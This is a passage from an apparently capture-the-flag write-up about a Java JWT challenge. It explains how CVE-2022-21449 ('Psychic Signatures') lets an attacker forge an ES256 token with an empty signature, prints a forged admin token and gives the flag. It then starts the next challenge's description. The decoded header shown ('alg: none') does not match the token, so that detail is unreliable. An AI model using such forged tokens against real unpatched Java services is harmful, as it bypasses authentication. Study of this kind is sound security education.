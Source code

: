 ```java
            if (claims.getSubject().equals(ADMIN)) {
                sub = ADMIN;
            } else if (claims.getSubject().equals(GUEST)) {
                sub = GUEST;
            }
        } catch (Exception e) {
            e.printStackTrace();
        }

        model.addAttribute("jwt", jwt_guest);
        model.addAttribute("sub", sub);
        if (sub.equals(ADMIN)) model.addAttribute("flag", FLAG);

        return "index";
    }
}
```

This time the JWT is actually parsed, so the `none` trick will not work anymore. One thing to notice is that this version is using `ES256` instead of the usual `HS256`. This hints at an Elliptic Curve signature forgery. Since we don't have the public key, and the code is statically typed, we can't do the usual `RS256/ES256` to `HS256` (where the public key is used as the secret key for the hash function).

After a bit of researching ECDSA + Java, we find `CVE-2022-21449: Psychic Signatures in Java`, which has a nice PoC here: [https://gist.github.com/righettod/1d2f4498e3dba4fc779036ce83565d68](https://gist.github.com/righettod/1d2f4498e3dba4fc779036ce83565d68) with the following JWT: `eyJ0eXAiOiJKV1QiLCJhbGciOiJFUzI1NiJ9.eyJzdWIiOiJSaWNrIEFzdGxleSIsImFkbWluIjp0cnVlLCJpYXQiOjE2NTA0NjY1MDIsImV4cCI6MTkwMDQ3MDEwMn0.MAYCAQACAQA`

We just need to edit it such that `sub` is set to `admin`
```
JWT
eyJ0eXAiOiJKV1QiLCJhbGciOiJFUzI1NiJ9.eyJzdWIiOiJhZG1pbiJ9.MAYCAQACAQA

Header 
{
  "typ": "JWT",
  "alg": "none"
}
Payload
{
  "sub": "admin"
}
```

**LINECTF{abaa4d1cb9870fd25776a81bbd278932}**

<a name="zipviewer-version-citizen"></a>
## zipviewer-version-citizen (110 pts, 81 solves) - Web

Description:
```
Read the flag (/flag)

http://34.84.43.130:11000/
```
